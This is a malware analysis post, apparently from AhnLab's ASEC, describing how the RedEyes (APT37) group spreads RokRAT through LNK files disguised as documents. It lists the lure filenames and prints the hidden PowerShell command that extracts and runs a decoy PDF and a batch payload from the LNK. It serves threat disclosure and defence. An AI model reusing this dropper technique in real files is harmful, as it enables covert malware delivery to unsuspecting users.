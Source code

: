 












 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By bghjmun  , April 26, 2023 

RokRAT Malware Distributed Through LNK Files (*.lnk): RedEyes (ScarCruft) 
AhnLab Security Emergency response Center (ASEC) confirmed that the RedEyes threat group (also known as APT37, ScarCruft), which distributed CHM Malware Disguised as Security Email from a Korean Financial Company last month, has also recently distributed the RokRAT malware through LNK files.
RokRAT is malware that is capable of collecting user credentials and downloading additional malware. The malware was once distributed through HWP and Word files. The LNK files that were discovered this time contain PowerShell commands that can perform malicious behavior by creating and executing a script file along with a normal file in the temp folder. The confirmed LNK filenames are as follows:

230407Infosheet.lnk
April 29th 2023 Seminar.lnk
2023 Personal Evaluation.hwp.lnk
NK Diplomat Dispatch Selection and Diplomatic Offices.lnk
NK Diplomacy Policy Decision Process.lnk

The “230407Infosheet.lnk” file is disguised with a PDF icon and contains a malicious PowerShell command.

Figure 1. Properties of the LNK file

The LNK file contains not only a PowerShell command, but also the data of a normal PDF file along with malicious script codes. Furthermore, there are dummy bytes that start from 0x89D9A all the way to 0x141702A.

Figure 2. Dummy data that exists at the end of the LNK file

The PowerShell command that is executed through cmd.exe upon executing the LNK file is as follows:



/c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match ‘System32’ -or $dirPath -Match ‘Program Files’) {            $dirPath = ‘%temp%’            }; $lnkpath = Get-ChildItem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eq 0x00014A0DC4} ^| Select-Object -ExpandProperty FullName; $pdfFile = gc $lnkpath -Encoding Byte -TotalCount 00561396 -ReadCount 00561396; $pdfPath = ‘%temp%\230407정보지.pdf’; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002474)) -Encoding Byte; ^& $pdfPath; $exeFile = gc $lnkpath -Encoding Byte -TotalCount 00564634 -ReadCount 00564634; $exePath = ‘%temp%\230412.bat’; sc $exePath ([byte[]]($exeFile ^| select -Skip 00561396)) -Encoding Byte; ^& $exePath;
